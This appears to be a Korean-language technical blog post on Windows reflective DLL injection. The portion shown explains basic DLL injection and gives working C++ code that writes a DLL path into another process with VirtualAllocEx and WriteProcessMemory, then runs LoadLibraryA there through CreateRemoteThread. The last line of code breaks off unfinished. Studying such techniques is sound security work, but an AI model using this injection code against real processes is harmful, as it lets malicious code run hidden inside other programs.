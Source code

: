 ```yaml
---
title:  "Windows - Process Injection Technique: Reflective DLL Injection"
categories:
  - WINDOWS
tags:
  - INJECTION
  - PROCESS
  - EXPLOIT
---
```

# Process Injection Technique: Reflective DLL Injection
## 0x00_Description
윈도우 상에서 DLL injection 위한 기법 중, [이곳](https://0x00sec.org/t/reflective-dll-injection/3080)을 참조하여 Reflective DLL Injection에 대해서 명세하였다. 

기본적인 DLL Injection은 다른 프로세스의 공간에 임의의 DLL을 로드하여 원하는 코드를 실행하도록 하는 것이다. 다음 코드는 `CreateRemoteThread()` 함수를 이용한 기본적인 DLL Injection이다. 

```c++
BOOLEAN BasicInjectDll(HANDLE hProcess, LPCSTR lpszDllPath,SIZE_T dwDllPathLen) {
    SIZE_T dwWritten = 0;
    LPVOID lpBaseAddress = NULL;
    HMODULE hModule = NULL;
    LPVOID lpStartAddress = NULL;
    printf("[+] Start Basic DLL Injection\n");
    printf("\t[-] DLL Path > %s\n", lpszDllPath);
    printf("\t[-] DLL Length > %d\n", (int) dwDllPathLen);
    lpBaseAddress = VirtualAllocEx(hProcess, NULL, dwDllPathLen, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (lpBaseAddress == NULL) {
        printf("[!] Error - BasicInjectDll() - %d\n", GetLastError());
        return FALSE;
    }
    printf("\t\t\t[*] Complete > VirtualAllocEx() > %p\n", lpBaseAddress);

    if (WriteProcessMemory(hProcess, lpBaseAddress, lpszDllPath, dwDllPathLen, &dwWritten) == NULL) {
        printf("[!] Error - BasicInjectDll() - %d\n", GetLastError());
        return FALSE;
    }
    printf("\t\t\t[*] Complete > WriteProcessMemory()\n");
    hModule = GetModuleHandle(L"kernel32.dll");
    if (hModule == NULL) {
        printf("[!] Error - GetModuleHandle() - %d\n", GetLastError());
        return FALSE;
    }
    printf("\t\t\t[*] Complete > GetModuleHandle()\n");
    lpStartAddress = GetProcAddress(hModule, "LoadLibraryA");
    if (lpStartAddress == NULL) {
        printf("[!] Error - GetProcAddress() - %d\n", GetLastError());
        return FALSE;
    }
    printf("\t\t\t[*] Complete > GetProcAddress() > %p\n", lpStartAddress);
    if (CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)lpStartAddress, lpBaseAddress, 0, NULL) == NULL) {
        printf("[!] Error - CreateRemoteThread() - %d\n", GetLastError());
        return FALSE;
    }
    printf("\t\t\t[*] Complete > CreateRemoteThread()
    
    return TRUE;
```